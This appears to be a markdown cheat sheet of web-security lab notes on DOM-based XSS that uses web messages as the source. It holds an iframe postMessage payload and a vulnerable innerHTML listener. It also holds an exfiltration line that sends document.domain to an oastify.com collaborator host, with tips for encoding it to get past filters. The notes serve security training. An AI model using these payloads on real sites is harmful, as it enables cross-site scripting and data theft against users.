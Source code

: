 * https://portswigger.net/web-security/dom-based#common-sources

* https://portswigger.net/web-security/dom-based#which-sinks-can-lead-to-dom-based-vulnerabilities

<br>

---
---

<br>

## Cheat Sheet 

<br><br>

* Find more examples of exploit payloads in the XSS folder.

<br>

### Source - Web Messages

* Use web messages as a source to send malicious data to a target window that will take in that data and include it in a dangerous sink.  

    * Example:  window.postMessage(“\<img src=x onerror=alert(1)\>”)
    
    * Payload: (Insert this payload onto the Exploit Server.)

```html
<iframe src="https://VULNERABLE-APPLICATION.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
<br>

* **Vulnerable Code:**

```javascript
<script>
window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
})
</script>
```

<br>

* Exploitation Payload: (Use document.location to exfiltrate data, and encode the payload to bypass filters.)

   * Decoded Payload:

      * The below payload can be used to test in the Browser's Dev Tools console:
      
      * The String.fromCharCode() contains the following:
         
         * document.location = "https://mh7yjmia7.oastify.com/?x=" + document.domain + "END"
      
         * Note:  Use CyberChef to encode the data.  "To Decimal" -> Delimiter "Comma".  (Also the alert() was not needed here just used for testing)
